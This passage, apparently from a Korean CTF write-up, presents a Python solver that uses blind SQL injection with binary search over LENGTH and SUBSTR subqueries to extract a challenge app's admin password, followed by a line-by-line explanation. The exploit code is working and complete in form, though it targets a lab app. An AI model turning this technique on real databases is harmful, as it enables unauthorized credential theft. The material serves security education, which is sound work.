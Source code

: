 ```py
                break
            query = query_tmpl.format(val=mid)
            if "hello" in self._sqli(query).text:
                high = mid
            else:
                low = mid
        return mid

    # attack methods
    def _find_password_length(self, user: str, max_pw_len: int = 100) -> int:
        query_tmpl = f'((SELECT LENGTH(userpassword) WHERE userid="{user}") < {{val}})'
        pw_len = self._sqli_lt_binsearch(query_tmpl, 0, max_pw_len)
        return pw_len

    def _find_password(self, user: str, pw_len: int) -> str:
        pw = ""
        for idx in range(1, pw_len + 1):
            query_tmpl = f'((SELECT SUBSTR(userpassword,{idx},1) WHERE userid="{user}") < CHAR({{val}}))'
            pw += chr(self._sqli_lt_binsearch(query_tmpl, 0x2F, 0x7E))
            print(f"{idx}. {pw}")
        return pw

    def solve(self) -> None:
        # Find the length of admin password
        pw_len = solver._find_password_length("admin")
        print(f"Length of the admin password is: {pw_len}")
        # Find the admin password
        print("Finding password:")
        pw = solver._find_password("admin", pw_len)
        print(f"Password of the admin is: {pw}")


if __name__ == "__main__":
    port = sys.argv[1]
    solver = Solver(port)
    solver.solve()
```

비밀번호를 찾는 코드는 이진 탐색으로 찾은 비밀번호의 길이를 인자로 전달하여, `_find_password` 함수에서 `substr`와 이진 탐색을 사용하여 비밀번호를 한 자리씩 찾아간다.

`query_tmpl = f'((SELECT SUBSTR(userpassword,{idx},1) WHERE userid="{user}") < CHAR({{val}}))'`를 통해 `userpassword`에서 지정해준 `substr`이 `val`의 아스키 문자보다 작을 때 `TRUE`를 리턴하는 쿼리문을 발생시킨다.

비밀번호의 자릿수를 나타내는 `idx`는 1부터 인자로 전달된 비밀번호 자릿수까지 증가시켜주며, 이진 탐색 결과로 찾은 비밀 번호의 아스키 문자 값을 `pw +=`으로 더하여 누적해준다.

예를 들어, 세 번째 문자에 대해 `user`가 `"admin"`이고 `val`이 `'a'`를 나타내는 `0x61`이면 아래와 같은 쿼리문을 보낸다.

- `(SELECT SUBSTR(userpassword,3,1) WHERE userid="admin") < CHAR(0x61)`

이진 탐색의 과정은 비밀 번호의 길이를 찾는 과정과 동일하기 때문에 같은 함수를 사용한다. 여기서 `mid`는 아스키 문자의 정수 값으로 설정된다.

코드의 실행 결과는 아래와 같고, 찾은 비밀번호를 통해 로그인하면 로그인에 성공한다. `app.py` 소스코드에서도 16바이트 랜덤한 문자열을 만든 후 `hex`로 출력했기 때문에, 총 32바이트 길이의 비밀번호가 나온다.

<img width="699" alt="image" src="https://github.com/user-attachments/assets/3e2613fb-dc14-46a7-916f-fa8d80691438">

참고로 만약 실행하다가, **Connection timed out** 연결 시간 초과 에러가 발생하면, `try...except` 구문으로 에러를 핸들링하거나, 공격에 성공할 때 까지 스크립트를 계속 실행하여 해결하는 방법이 있다.
{% endraw %}